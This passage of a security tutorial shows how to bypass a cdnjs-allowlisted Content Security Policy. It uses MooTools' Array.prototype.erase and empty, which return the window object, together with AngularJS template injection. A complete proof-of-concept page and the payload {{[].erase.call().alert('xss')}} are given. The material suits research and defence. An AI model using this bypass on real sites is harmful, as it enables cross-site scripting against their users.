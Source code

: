 Will MooTools also meet our above conditions?

## Manually find alternatives - MooTools

We can find various prototypes modified by MooTools in this folder: https://github.com/mootools/mootools-core/tree/master/Source/Types

1. Array
2. DOMEvent
3. Function
4. Number
5. Object
6. String

Because the files are not large, you can read them one by one. If you want to be faster, you can also use `return this` as a keyword to search, and you can find two as soon as you search:

``` js
Array.implement({
  erase: function(item){
    for (var i = this.length; i--;){
      if (this[i] === item) this.splice(i, 1);
    }
    return this;
  },

  empty: function(){
    this.length = 0;
    return this;
  },
})
```


Both `Array.prototype.erase` and `Array.prototype.empty` functions return `this`, so the following two methods can get the `window`:

1. [].erase.call()
2. [].empty.call()

Then try it immediately to see if the CSP bypass is successful:

``` html
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>CSP bypass - MooTools</title>
    <meta
      http-equiv="Content-Security-Policy"
      content="default-src 'none'; script-src https://cdnjs.cloudflare.com">
  </head>
  <body>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
    <div ng-app ng-csp>
      {{[].erase.call().alert('xss')}}
    </div>
  </body>
</html>
```
